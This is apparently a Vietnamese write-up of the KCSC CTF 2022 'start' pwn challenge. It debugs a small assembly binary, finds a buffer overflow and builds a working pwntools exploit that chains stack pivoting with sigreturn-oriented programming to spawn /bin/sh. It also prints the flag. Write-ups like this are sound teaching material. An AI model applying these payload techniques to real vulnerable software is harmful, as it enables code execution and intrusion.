




# KCSC CTF 2022 - start

Các bạn có thể tải chall ở repo của mình: [start.zip](start.zip)

# 1. Tìm lỗi

Bài này được viết bằng assembly nên ta sẽ vừa debug vừa thực thi để tìm xem lỗi do đâu. 

Khởi động chall bằng gdb, ta thấy rằng chương trình chỉ có nhiêu đây:

```assembly
gef➤  x/24i 0x401000
   0x401000:	call   0x401011
   0x401005:	mov    edi,0x0
   0x40100a:	mov    eax,0x3c
   0x40100f:	syscall 

   0x401011:	push   rbp
   0x401012:	mov    rbp,rsp
   0x401015:	sub    rsp,0x400
   0x40101c:	mov    edx,0x19
   0x401021:	movabs rsi,0x402000
   0x40102b:	mov    edi,0x1
   0x401030:	mov    eax,0x1
   0x401035:	syscall 
   0x401037:	mov    edx,0x410
   0x40103c:	lea    rsi,[rbp-0x400]
   0x401043:	mov    edi,0x0
   0x401048:	mov    eax,0x0
   0x40104d:	syscall 
   0x40104f:	mov    rdx,rax
   0x401052:	lea    rsi,[rbp-0x400]
   0x401059:	mov    edi,0x1
   0x40105e:	mov    eax,0x1
   0x401063:	syscall 
   0x401065:	leave  
   0x401066:	ret
```

Nếu ta không thấy lỗi khi đọc code, vậy hãy chạy và nhập input vào để xem chuyện gì xảy ra. Ta thấy chương trình cho phép nhập tối đa `0x410` byte nên ta thử nhập full coi sao:



Chạy và input với payload như trên, ta gặp lỗi sigsegv:



--> **Buffer Overflow**

# 2. Ý tưởng

Bài này không khó lắm, chỉ có điều hơi phức tạp thôi vì phải nhảy nhiều chỗ, nhảy đủ kiểu =))

Ý tưởng là đầu tiên, ta sẽ thực hiện stack pivot để có thể tùy ý sử dụng lệnh `read()`, không phải phụ thuộc vào `read()` của chương trình. Khi đã stack pivot thành công, ta sẽ thực hiện S-ROP (Sigreturn-ROP) để tạo shell.

Tổng kết:
- Stage 1: Stack pivot
- Stage 2: SROP

# 3. Khai thác

### Stage 1: Stack pivot

Ta nhận thấy khi chương trình thực hiện lệnh SYS_read, địa chỉ sẽ được lấy từ `rbp-0x400`. Vậy khi ta overflow, ta sẽ đặt rbp thành 1 địa chỉ ghi được. 

Vậy việc đầu tiên ta cần làm là kiếm địa chỉ ghi được bằng `vmmap` của gdb-gef:

```gdb
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x00000000402000 0x00000000403000 0x00000000002000 r-- /home/nguyenhuutri/CTF/KCSC/start/start
0x00000000403000 0x00000000404000 0x00000000000000 rw- /home/nguyenhuutri/CTF/KCSC/start/start
0x00000000404000 0x00000000405000 0x00000000000000 rw- [heap]
...
```

Đoạn địa chỉ ghi được thuộc từ `0x403000` tới `0x404000`. Ta sẽ chọn đại 1 vị trí là `0x403900` và đặt địa chỉ này vào saved rbp.

Kế đến, ta phân tích đoạn code assembly bên trên. Nhận thấy địa chỉ `0x401037` giúp ta ghi dữ liệu vào vị trí `rbp-0x400`, tức vị trí ghi được là `0x403500` nếu ta đã đặt `0x403900` vào saved rbp.

Vậy đoạn script thực hiện việc ghi vào địa chỉ ghi được là: 

```python
rw_section = 0x00000000403900

payload = b'A'*0x400
payload += flat(
    rw_section,
    0x40103c
    )
p.sendafter(b'say? ', payload)
```

Để ý thấy rằng chương trình sẽ thực hiện lệnh `leave ; ret` ở cuối nên ta không cần phải tìm gadget `leave ; ret` làm gì. 

Khi nhập dữ liệu lần đầu xong, chương trình sẽ yêu cầu ta nhập dữ liệu lần 2. Với saved rbp là địa chỉ do ta chỉ định, khi nhập xong lần 2 thì chương trình sẽ tự động pivot stack thành địa chỉ mà ta đã chọn là `0x403900`:



Ok, vậy bây giờ ta sẽ tiếp tục bước 2 là tạo và thực thi SROP.

### Stage 2: SROP

Vậy bây giờ, ta sẽ dùng framework `SigreturnFrame` của pwntools để tạo frame. Điều ta cần thực hiện trước tiên là tự hỏi rằng, ta muốn thiết lập các register như thế nào (rax, rbx, rcx,...).

Trước hết, vì ta không có gadget giúp thực thi syscall của sigreturn nên ta bắt chương trình thực thi SYS_read để ta có thể nhập đúng `0xf` byte vào (`0xf` là syscall của sigreturn, bạn có thể xem ở [đây](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit)).

Sau khi nhập đúng `0xf` byte vào, ta thấy chương trình sẽ dùng số byte nhập được đó đưa vào rdx và sẽ in ra đúng `0xf` byte, giúp ta duy trì `0xf` trên rax. Và khi chương trình `leave ; ret`, ta sẽ tìm cách pivot sao cho saved rip chứa địa chỉ `syscall`. Từ đó ta thực hiện được sigreturn.

Vậy trước tiên, ta phải nhập frame của sigreturn trước. Thấy số byte nhập vào lớn hơn `0xf` nên ta biết ta sẽ phải thực hiện stack pivot lần nữa.

Vậy trước tiên, ta tạo 1 frame `SigreturnFrame` bằng pwntools và set rax thành syscall của execve, rsp và rdi ta đặt tùy ý, còn rip ta sẽ thay thành địa chỉ syscall (dùng ROPgadget để lấy syscall hoặc dùng bất cứ syscall của phần dissasembly bên trên):

```python
syscall = 0x000000000040100f

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = rw_section - 0x400
frame.rip = syscall
frame.rsp = rw_section
```

Ta thấy rằng `len(frame)` dài `0xf8` byte. Vậy payload của ta sẽ chứa `0x100` byte pad đầu để tránh việc ghi đè làm thay đổi structure của frame, sau đó cộng thêm frame vào và thêm pad để điều chỉnh rbp và rip:

```python
payload = b'A'*0x100
payload += bytes(frame)
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section,         # Saved rbp
    0xdeadbeef)         # Saved rip
p.send(payload)
```

Sau khi ta ghi structure xong, ta sẽ muốn chương trình chạy lại để nhập input. Nhưng với payload trên, ta chỉ có thể khiến cho rip thực thi duy nhất câu lệnh `0xdeadbeef` (vì chưa biết nên đưa gì vào saved rip nên mình để đỡ vậy)

Cách tiện nghi nhất là ta dùng gadget `leave ; ret` để stack pivot lần nữa với cái saved rbp trỏ vào phần pad trước frame hoặc sau frame. Ta trỏ ở đâu thì ta thiết lập cho chương trình thực thi lệnh read của chương trình và cho nó return to syscall. Mục tiêu của ta là phải để syscall ngay kế bên frame thì khi thực hiện sigreturn mới đúng được.

Vậy trước tiên, ta thêm địa chỉ read và syscall vào trước frame:

```python
payload = b'A'*0x100
payload += flat(        # Change here
    0x401043,           # Change here
    syscall,            # Change here
    bytes(frame)        # Change here
    )                   # Change here
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section,         # Saved rbp
    0xdeadbeef)         # Saved rip
p.send(payload)
```

Và ta sẽ muốn stack pivot để nhảy vào vị trí ta mới thêm:

```python
leave_ret = 0x401065

payload = b'A'*0x100
payload += flat(           # Change here
    b'BBBBBBBB'            # Change here (Fake rbp)
    0x401043,
    syscall,
    bytes(frame)
    )
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section - 0x300,    # Saved rbp
    leave_ret)             # Saved rip
p.send(payload)
```

Lưu ý rằng sau khi ta stack pivot ở đoạn code trên, rbp lúc này không còn là địa chỉ hợp lí:


Vậy ta chỉ việc thay rbp thành địa chỉ ghi được thì khi thực thi read và write của chương trình sẽ không bị lỗi.

```python
leave_ret = 0x401065
payload = b'A'*0x100
payload += flat(
    rw_section,             # Change here (Fake rbp)
    0x401043,
    syscall,
    bytes(frame)
    )
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section - 0x300,    # Saved rbp
    leave_ret)             # Saved rip
p.send(payload)
```

Chạy thử code thì ta thấy chương trình yêu cầu chúng ta nhập vào. Vậy bây giờ ta chỉ việc đưa chuỗi `"/bin/sh"` và pad cho đủ `0xf` byte. Sau đó chương trình sẽ `leave ; ret` và thực thi lệnh syscall giúp ta thực thi sigreturn.

Nhưng khoan đã, để ý cái dòng thay đổi của đoạn code trên, rbp lúc đó sẽ trỏ về địa chỉ `rw_section`, tức là `0x403900`. Nhưng mình không ghi gì vào đó và ở đó cũng không chứa frame. Vậy ta sẽ chỉnh Fake rbp đó thành địa chỉ của `rw_section - 0x300 + 0x8` thì khi thực hiện `leave ; ret` của chương trình, rip sẽ trỏ ngay vào syscall:

```python
leave_ret = 0x401065
payload = b'A'*0x100
payload += flat(
    rw_section - 0x300 + 0x8,    # Change here (Fake rbp)
    0x401043,
    syscall,
    bytes(frame)
    )
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section - 0x300,    # Saved rbp
    leave_ret)             # Saved rip
p.send(payload)
``` 

Và ta nhập chuỗi `"/bin/sh"` và pad cho đủ `0xf` byte:

```python
p.send(b'/bin/sh\x00' + b'\x00'*7)
```

May mắn là rdi frame của frame trùng với địa chỉ nhập chuỗi `"/bin/sh"` nên khi sigreturn, ta được rdi chứa địa chỉ trỏ tới chuỗi `"/bin/sh"` và ta lấy được shell.

Full code: [solve.py](solve.py)

# 4. Lấy cờ



Flag là `KCSC{961769046d8cc0ce610b85b67a6bb266}`